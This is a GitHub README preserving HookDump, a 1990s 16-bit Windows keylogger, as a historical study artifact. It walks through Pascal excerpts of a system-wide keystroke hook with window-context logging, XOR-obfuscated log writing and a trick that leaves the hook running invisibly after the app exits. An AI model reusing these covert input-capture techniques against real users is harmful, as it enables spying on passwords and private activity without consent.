

# HookDump

A keyboard / mouse logging program for **16-bit Windows** (Windows 3.x, and the Win16
subsystem of 95/98), written by **iLya — Ilya V. Osipov** in **Nizhny Novgorod, 1996–1997**.

In its day HookDump was **one of the best-known Russian "spy programs" (keyloggers)**:
freely distributed, repeatedly named **best in its class** by the computer press, and
cited in security and anti-virus literature. It has its own articles in the
[Russian](https://ru.wikipedia.org/wiki/HookDump) and
[Ukrainian](https://uk.wikipedia.org/wiki/HookDump) Wikipedias.

This repository preserves the program as a **historical software artifact**, and the
author releases all of it — the original source included — under the **MIT License** so
anyone may study it.

> **About the sources.** The **original HookDump source was recovered** (2026) from the
> author's own encrypted archives. It was written in **Borland Pascal for Windows (16-bit)**.
> It is now in [`src/original-16bit/`](src/original-16bit): the application
> (`HOOKDUMP.PAS`) and the hook **DLL** (`HOOKDMP.PAS`), which captures input through a
> **`WH_GETMESSAGE`** hook. A later **32-bit Delphi port** is in
> [`src/port-32bit-delphi/`](src/port-32bit-delphi), and a small separate Delphi hook demo
> in [`src/successor-hookproj/`](src/successor-hookproj). The full version history (v1.5 …
> v2.8) is published under [`versions/`](versions).

**The program does not run on modern systems — and, as the author recalls, it worked
only on 16-bit Windows, not 32-bit.** Its whole trick depended on the **Win16
multitasking model**, where every application shared a single address space and message
queue and a DLL's data was global across all of them, so one hook DLL could see what was
happening in every other program. When Windows moved to the **32-bit preemptive model
with a separate, isolated address space per process**, the global hook DLL was loaded
into each process's *own* space and could no longer see or share state across the other
programs (threads) — so it stopped working. It is preserved here for historical and
educational study only.



*HookDump 2.8 interface — "Keyboard Hook Dumper", (C) iLya Osipov, N-Novgorod, 1996–97.
Screenshot by Iexeru, [CC BY-SA 4.0](https://commons.wikimedia.org/wiki/File:HookDump.jpg),
via Wikimedia Commons.*

- Home page: http://ctrl8.com/HookDump
- Source (MIT): https://github.com/ilya000/HookDump
- Author: iLya — Ilya V. Osipov · https://github.com/ilya000
- Original product page: published at **`http://www.halyava.ru/ilya/hookd.htm`** (the
  author's late-1990s page on the free Halyava ("Халява") hosting; the URL is hard-coded in the
  program itself), later `www.ilya.nn.ru` — now available again at
  **`http://old.osipov.ru/ilya/hookd.htm`**.
- Press, reviews and references: [PRESS.md](PRESS.md)

## Author's intent and origin

HookDump was **never conceived by the author as a destructive or malicious tool**. It
was written as a **monitoring / activity-logging program** for the computer on which it
was installed — to record how, when and for what purpose that machine was used.

It was originally developed **for a university department, on commission from the head of
the department**, to keep track of the time and purpose of use of the department's office
(work) computers. The contemporary press of the era later framed it as a "spy program."

Precisely because its purpose was **legitimate computer-use auditing** rather than covert
attack, HookDump also **entered the academic and technical literature**: beyond the
security/anti-virus books, it is used in a textbook on electronic publications as an
example of software for **collecting interface-usage statistics** (V. A. Vul,
*Electronic Publications* (Электронные издания), 2003) — in effect, early UX
instrumentation. The full, footnoted
list of sources, with Wayback Machine archived versions, is in [PRESS.md](PRESS.md).

> Historical note: in the 1990s this was described, in the style of the time, as a
> "program-spy." By modern definitions it is a **keylogger**. It is published here as a
> record of early work and for study. Do not use it, or code derived from it, to capture
> anyone's input without their consent and lawful authority. See [NOTICE.md](NOTICE.md).

---

## Why it mattered (historical reference)

HookDump appeared when Windows 3.x / 95 had essentially no built-in protection against
input monitoring, and it became a reference example of how far a small Pascal program
could go. What made it notable at the time:

**Core features**
- A system-wide **`WH_GETMESSAGE`** hook installed from a DLL, so the messages of every
  running application — key presses, characters, mouse clicks — flowed through it.
- Logged **everything typed and clicked**, system-wide, to a file.
- Recorded **context** for each event: which program, which window title, which field —
  with timestamps.
- Optional **mouse-click** logging.
- Configurable granularity: log only alphanumerics + cursor keys, or **every** key
  including Caps Lock, Shift, Tab and the function keys.
- **AutoStartUp**: launch automatically with Windows and begin recording right after boot.
- Output as `.hk` text files in any chosen directory; optional **XOR obfuscation** of the
  log (`XorBase`) and write **buffering** (`BufSize`).
- A substantial (English) help file; whole package just over **50 KB**.

**Unique / standout solutions for its era**
- **Invisible to the user and to the Windows Task Manager** — the running process did not
  show up in the task list, which is precisely what made the press single it out.
- **Context logging of password fields** — it could capture *hidden* passwords, such as
  those stored in masked Dial-Up Networking fields, by reading the field context rather
  than just the visible characters.
- **Global, system-wide visibility from one hook** — under the Win16 model all
  applications shared a single address space, and a DLL's data segment (its log file
  handle, buffer and options) was shared across every process using it, so one
  `WH_GETMESSAGE` hook DLL naturally saw and logged activity in *all* running programs.
  (This is exactly the property the 32-bit model later removed — see above; the 32-bit
  port has to recreate that shared state by hand.)
- **A managed uninstall path**: because it ran hidden, removal required relaunching it in
  visible mode with the `/V` switch and exiting — a deliberate design rather than an
  afterthought.
- **Dual use, ahead of its time**: the very same instrumentation was later cited in a
  textbook (V. A. Vul, *Electronic Publications* (Электронные издания), 2003) as a way to **collect interface-usage
  statistics** — essentially UX analytics, years before that term was common.

**Lineage**: HookDump grew out of the author's earlier program **HookRus**, a Russian
keyboard-layout patcher for Windows; the hooking core was reused and extended.

See [PRESS.md](PRESS.md) for the contemporary reviews (Computerra called version 2.8
"the best program in its class", 1999) and the full list of publications.

---

## How it works

**Today this is of historical interest only** — a study artifact of late-1990s Windows
hooking. This is a guided read of the **original source** in
[`src/original-16bit/`](src/original-16bit) (Borland Pascal for Windows, 16-bit). The
program is two halves:

- **the application** `HookDump` ([`HOOKDUMP.PAS`](src/original-16bit/HOOKDUMP.PAS)) — the
  visible window, menu, options and install/uninstall logic;
- **the hook DLL** `HookDmp` ([`HOOKDMP.PAS`](src/original-16bit/HOOKDMP.PAS)) — the part
  that actually captures input and writes the log.

It has to be a DLL because the capture runs *inside other programs*: under 16-bit Windows
a single DLL instance, with one shared data segment, is mapped into every task — so the
DLL is the natural place to keep the log file, the buffer and the options that all those
tasks share.

### 1. The hook procedure — one filter for the whole system

The capture is a **`WH_GETMESSAGE`** hook. Windows calls `MsgHookProc` for *every* message
it dispatches in *any* application; the `lParam` points at that `TMsg`. The procedure
looks at the message, logs what it cares about, and must always pass control on with
`DefHookProc`:

```pascal
function MsgHookProc(code: Integer; WParamq: Word; LParamq: Longint): Longint; export;
  var P : PMsg absolute LParamq;          // reinterpret lParam as a pointer to the message
  Begin
    Case P^.Message of

      WM_KEYDOWN, WM_SysKEYDOWN:
      if Accept(p^.WParam, WM_KEYDOWN) Then   // de-dup auto-repeat (see step 2)
      Begin
        WriteModule;                          // note which program/window this went to
        case p^.WParam of                     // modifier keys only update state, aren't logged
          vk_Menu:    KeyState := KeyState or k_Menu;
          vk_Shift:   KeyState := KeyState or k_Shift;
          vk_Control: KeyState := KeyState or k_Control;
          else if st.WritePush Then           // optional: log the key-DOWN event itself
            WriteStr('{'#$19 + GetLongKeyName(P^) + '}');   // e.g. {Ctrl+F4}
        end;
      end;

      WM_KEYUp, WM_SysKEYUp:
      if Accept(p^.WParam, WM_KEYUp) Then
      Begin
        WriteModule;
        case p^.WParam of                     // releasing a modifier clears its bit
          vk_Menu:    KeyState := KeyState and not k_Menu;
          vk_Shift:   KeyState := KeyState and not k_Shift;
          vk_Control: KeyState := KeyState and not k_Control;
          else if st.WritePop Then
            WriteStr('{'#$18 + GetLongKeyName(P^) + '}');
        end;
      end;

      wm_Char, wm_SysChar:                     // the cooked character (after layout/Shift)
      if Accept(p^.WParam, WM_Char) Then
      Begin
        WriteModule;
        if st.WriteBasic Then WriteStr(char(P^.WParam));   // <-- the plain text you typed
      end;

      WM_LBUTTONUP, WM_MBUTTONUP, WM_RBUTTONUP:
      if st.UseMouse Then begin WriteModule;
        if st.WritePop Then WriteStr('{'#$18 + GetLongMouseKeyName(P^) + '}'); end;
      WM_LBUTTONDown, WM_MBUTTONDown, WM_RBUTTONDown:
      if st.UseMouse Then begin WriteModule;
        if st.WritePush Then WriteStr('{'#$19 + GetLongMouseKeyName(P^) + '}'); end;

    End{case};
    DefHookProc(Code, wParamq, lParamq, lpfnNextHook);   // ALWAYS chain to the next hook
  End;

Exports
  MsgHookProc index 1 resident, ... ;        // exported by ordinal; 'resident' = lock in memory
```

Note the design choice: it logs **`wm_Char`** for normal text (already translated through
the active keyboard layout, so it records the real characters, Cyrillic included), and
uses **`WM_KEYDOWN/UP`** only to track modifiers and optional "raw key" logging. That is
why it captured *what was actually typed*, not just scan codes.

### 2. Not logging the same key twice

Key-repeat floods `WM_KEYDOWN`. A tiny one-slot filter collapses repeats — it accepts an
event only when the (key, message) pair differs from the previous one:

```pascal
const LastKey: Word = 0;  LastWM: Word = 0;
function Accept(Key, WM: Word): Boolean;
begin
  if (LastKey <> Key) or (LastWM <> WM) Then begin
    LastKey := Key;  LastWM := WM;  Accept := True;     // new event -> log it
  end
  else Accept := False;                                 // same as last -> skip (auto-repeat)
end;
```

### 3. Context — which program and window the input went to

Before logging a burst of input, `WriteModule` records *where* it was typed, but only when
the active task or focused window changes (so the log reads like `[program | window]`):

```pascal
Procedure WriteModule;
Var Wnd, ActW: HWnd;  Task: THandle;
begin
  if (st.ExeName = false) and (st.WndName = false) Then exit;
  Task := GetCurrentTask;  Wnd := GetFocus;
  if (LastTask <> Task) or (LastWnd <> Wnd) Then begin    // only on a change
    LastTask := Task;  LastWnd := Wnd;
    WriteStr(#13#10'[');
    if st.ExeName Then begin                              // the running .EXE name
      byte(SBuf[0]) := GetModuleFileName(Task, @SBuf[1], sizeof(SBuf));
      ...
      WriteStr(strpas(Prog));
    end;
    if st.WndName Then begin                              // the window/title text
      GetWindowText(Wnd, @SBuf[1], sizeof(SBuf));
      WriteStr(strpas(@SBuf[1]));
    end;
    WriteStr(']'#13#10);
  end;
end;
```

This is the feature the press highlighted — and the same one a textbook later cited as a
way to gather *interface-usage statistics*: you can see which program/field received input.

### 4. The log writer — buffering, XOR, ANSI→OEM

Everything funnels through `WriteStr`. The normal state of the log file is **closed**; it
is opened only to append, so the file is robust if the machine is reset:

```pascal
Function WriteStr(N: String): Boolean;
begin
  if st.AnsiToOem Then N := Rus_Windows2Dos(N);        // CP1251 (Windows) -> CP866 (DOS) text
  if st.XorOutput Then N := XorString(N, st.XorBase);  // optional obfuscation with a 1-byte key
  if st.UseBuffer Then AddStr(N)                       // collect in a PChar buffer...
  else begin Append(F); System.Write(F, N); Close(F); end;  // ...or write now and re-close
end;

Procedure AddStr(N: String);                           // buffer; flush when it would overflow
begin
  if BUF = nil Then Exit;
  if StrLen(BUF) + Length(N) >= st.BufSize Then FlashStr;
  StrCopy(StrEnd(BUF), @(N + #0)[1]);
end;

Procedure FlashStr;                                    // append the buffer to the file, then clear
begin Append(F); System.Write(F, BUF); Close(F); BUF[0] := #0; end;
```

### 5. The application arms the hook

`HOOKDUMP.PAS` loads the DLL, looks up the exported `MsgHookProc`, and installs it as a
**system-wide** message hook (and sanity-checks that EXE and DLL versions match):

```pascal
hHookDLL := LoadLibrary('HookDmp.dll');
Hook     := GetProcAddress(hHookDLL, 'MsgHookProc');
SETlpfnNextHook( SetWindowsHook(WH_GETMESSAGE, Hook) );  // install; keep the previous hook to chain to
```

### 6. The key trick — making the program "disappear"

The whole point is that the **DLL keeps running after the visible program is gone**. The
window's "Exit" actually asks what to do:

```pascal
case MessageBox(GetFocus, 'Close the Dump ?'#13#13
      + 'Yes - Exit and close hook; No - Hide', 'Exit',
      MB_ICONQUESTION or MB_YESNOCANCEL) of
  IDNO:  begin DoneWindow(Window); DestroyWindow(Window); end;          // HIDE: leave the DLL loaded
  IDYES: begin DoneWindow(Window); UnloadLibrary; DestroyWindow(Window); end; // really remove it
end;
```

- On **Hide** the app destroys only its window and exits — it does **not** unload
  `HookDmp.dll`. The DLL stays resident, still mapped into every task by the system hook,
  quietly logging. No window, no entry in the task list — the "invisible in Task Manager"
  behaviour the press noted.
- A 16-bit DLL is shared by a **use count**, and the trick to keep it alive was to make
  sure that count never falls to zero when the launcher leaves — in effect **the DLL is
  loaded more times than it is freed**, so Windows never unloads it. `UnloadLibrary` is the
  deliberate cleanup: it finds the module and calls `FreeLibrary` once per remaining use
  (`for i := 1 to Q.wUsageFlags-1 do FreeLibrary(H)`), which is why removal needs the
  explicit **visible mode (`/V`)** path.
- When the DLL is finally unloaded, its `ExitProc` handler closes the record cleanly:

```pascal
var oldExitProc: Pointer;
Procedure dllExitProc;
begin
  ExitProc := oldExitProc;
  if inited Then WriteStr(#13#10'[End of file. ' + Time + ']'#13#10);
  FlashStr;                                   // flush whatever is still buffered
end;
Begin
  oldExitProc := ExitProc;  ExitProc := @dllExitProc;   // chain ourselves onto unit shutdown
End.
```

> Note: in this 1998-02 source snapshot the `SetWindowsHook(WH_GETMESSAGE, …)` call in the
> app is commented out (a mid-development state); the shipped builds installed it as shown.

---

## The 2.8 release

The distributed archive `hookdump.zip` (dated 1998-01-09) contained four files:

| File | Purpose |
|------|---------|
| `HOOKDUMP.EXE` | the program (21,760 bytes) |
| `HOOKDMP.DLL`  | the hook DLL injected system-wide |
| `HOOKDUMP.HLP` | Windows help file |
| `HOOKDUMP.INI` | configuration |

This 2.8 release — and every earlier one — is published under [`versions/`](versions).

### Configuration — `HOOKDUMP.INI`

```ini
[StartUp]
Show=00          ; start hidden
Dir=C:\          ; log directory; if absent, the Temp dir is used
file=_Hook       ; base file name; else a unique name with extension .hk
XorBase=85       ; XOR key used when XorOutput is on
BufSize=255      ; write buffer size

[Options]
WriteBasicKey=01    ; log ordinary keys
WritePopKey=00      ; log key-up events
WritePushKey=00     ; log key-down events
WriteExeName=01     ; record the active program name
WriteWindowName=01  ; record the active window title
AnsiToOem=00        ; ANSI -> OEM translation of logged text
RegardMouse=01      ; also log mouse clicks
XorOutput=00        ; obfuscate the log with XorBase
UseBuffer=01        ; buffer writes
```

---

## Repository layout

```
HookDump/
├─ src/
│  ├─ original-16bit/      THE ORIGINAL — Borland Pascal for Windows
│  │   ├─ HOOKDUMP.PAS     the application (window, menu, /V, INI, install)
│  │   ├─ HOOKDMP.PAS      the WH_GETMESSAGE hook DLL (capture + logging)
│  │   ├─ TYPES.PAS        shared options/types
│  │   └─ SWITCH.PAS       single-instance helper
│  ├─ port-32bit-delphi/   a later 32-bit Delphi port (HOOK32 + HOOKMAIN/ABOUT/OPTION/GLOBAL)
│  └─ successor-hookproj/  a small separate Delphi hook demo (not the original)
├─ versions/               version history v1.5 … v2.8 (period release binaries) + early source
├─ web/index.html          project home page (ctrl8.com/HookDump)
├─ README.md  PRESS.md  CHANGELOG.md  NOTICE.md  LICENSE
└─ _backup/                local-only working store — NOT tracked by git
   └─ original-source/      full recovered tree (compiled io units, help sources, backups, ARHIV)
```

Everything that is source — the original, the Delphi port, the demo — is in `src/` under
the MIT License. The historical version releases are under `versions/`. `_backup/` keeps
the complete recovered working tree (compiled `.TPW`/`.DCU` units, `.HLP`/`.RTF` help
sources, editor backups) that isn't needed in the published repo.

---

## Building

The original (`src/original-16bit/`) is **Borland Pascal 7 for Windows (16-bit)** — raw
WinAPI (`WinTypes`/`WinProcs`), the `WH_GETMESSAGE` hook via `SetWindowsHook` /
`DefHookProc`, `MakeProcInstance`, and the author's own `ioGDI` / `ioString` units
(compiled `.TPW` preserved under `_backup/`; their own source was not in the archive). The
`src/port-32bit-delphi/` files are a later Delphi (VCL) port. These are kept for historical
and educational study; there is **no** modern build wired up and the program is not meant
to be rebuilt or run as live software — it does not work on modern Windows anyway (see
above).

---

## History (versions)

- **HookRus** — earlier Russian keyboard-layout patcher; HookDump grew out of its hook code.
- **1996** — first release (per Russian Wikipedia).
- **1.5 / early-1.x** — Feb 1997 (the 1997-02 snapshot in `versions/` also carries source).
- **2.0b** — Feb 1997; **2.5b** — Apr 1997 (glitch under a different Windows login, later fixed).
- **2.6b** — Oct 1997: no warning window on repeated hidden launch; uninstall via `/V`.
- **2.7** — Oct 1997 (English product page).
- **2.8** — release archive dated 1998-01-09; named best in class by *Computerra* (1999).

All of the above are published under [`versions/`](versions). See [CHANGELOG.md](CHANGELOG.md).

---

## License and rights

Source code: **MIT License** — see [LICENSE](LICENSE). Copyright © 1996–1998, 2026
Ilya V. Osipov. The historical binaries are provided **as is**, for study only — see
[NOTICE.md](NOTICE.md).
